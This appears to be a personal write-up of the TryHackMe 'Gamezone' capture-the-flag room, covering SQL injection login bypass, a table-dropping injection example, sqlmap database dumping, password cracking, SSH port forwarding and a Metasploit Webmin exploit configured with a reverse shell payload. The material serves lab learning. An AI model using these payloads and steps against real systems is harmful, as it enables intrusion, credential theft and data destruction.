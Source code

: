 ```yaml
---
layout: default
title: Gamezone
parent: TryHackMe
nav_order: 5
---
```


# Navigation Structure
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }


![](pictures/logo-gamezone.png)


- Task 1
- Task 2
- Task 3
- Task 4
- Task 5
- Task 6
{:toc}


## [](#header-2)Summary:

1. Use sql injection to obtain access through webportal
2. Use a sqlmap to extract hashed password3
3. Plug the hashed password into JohnTheRipper in order to crack it.
4. Access a blocked webpage running webmin via reverse ssh tunnel
5. Use exploit via metasploit on webmin page to escalate privileges


## [](#header-2)Task 1:

The first challenge was to perform a reverse image search on the cover of the website to see who the pictured character was.
![](pictures/pic-gamezone.png)

Which can be done with [reverse image search](https://www.reverseimagesearch.com/)

## [](#header-2)Task 2:
We find that our login portal is vulnerable to sql injection and try to exploit it.

The reason the below sql injection ' or 1=1 -- - works is because it essentially finishes the sql statement that the Log in: portion uses. 
![](pictures/sqli-gamezone.png)
```SQL
SELECT * FROM users WHERE username = admin AND password := ' or 1=1 -- -
```

An example of a SQL injection that could prove dangerous is:

```SQL
'; DROP TABLE users; --'
```
This attack if inserted in our case would delete the users table altogether by cuting off the previous select statement and then continuing to execute DROP TABLE users; --' which deletes the users table. 

```SQL
SELECT * FROM users WHERE username = admin AND password := '; DROP TABLE users; --'
```




## [](#header-2)Task 3:
In the portion of the box we see a portal that has a search feature that can potentially be exploitable.

![](pictures/portal-gamezone.png)


First we'll be using burpsuite so that we can intercept the request in the search feature and pass it on to sqlmap to do our dirty work.



![](pictures/burp-gamezone.png)

Then we'll save this as a txt file “request.txt” and plug it into sqlmap with the following command:
```bash
sqlmap -r request.txt --dbms=mysql --dump
```
-r uses the request provided
--dbms specifies which database you are targeting 
--dump dumps the whole database

With sqlmap we are able to find some very interesting stuff including possible table input as well as hashed passwords.

![](pictures/sqlmap-gamezone.png)


## [](#header-2)Task 4:
From here we are going to crack the hash that we found from sqlmap with the opensource password cracker JohnTheRipper

To do this we will use the following command: 


![](pictures/john-gamezone.png)

Once our password is found we can proceed to ssh into the machine.

![](pictures/ssh-gamezone.png)


from here we find the user flag within the /home/agent47 directory

## [](#header-2)Task 5:

From here we use the ss tool to see what open sockets we have available 
```bash
ss -tulpn
```
provided is a list of the flags and their purposes:

![](pictures/flag-gamezone.png)

We then find we have 5 open TCP connections and 2 udp.

![](pictures/conn-gamezone.png)


From here we can use one of these connections to create a reverse ssh tunnel on another port with 
```bash
ssh -L 10000:localhost:10000 <username>@<ip>
```
Now we can have a tunnel from that port that was previously restricted on our localhost 



![](pictures/tun-gamezone.png)

Now we are able to access the page being hosted on that port within our local machine at localhost:10000

![](pictures/webmin-gamezone.png)


Logging in with our agent user crednetials we come to this web page which shows some version information that we can use to further exploit.

![](pictures/ver-gamezone.png)



## [](#header-2)Task 6:

In order to find a exploit for this application we can search

![](pictures/sploit-gamezone.png)

From here we use the following options once we get into our target module

options
set rhosts localhost
set username <username>
set password <password>
set ssl false
set lhost tun0
show payloads
set payload cmd/unix/reverse
run


![](pictures/root-gamezone.png)

And we get root!

## [](#header-2)Conclusion:

Even though this room was more of a walkthrough, I did find that I learned useful information on sql injections as well as reverse ssh tunnels.
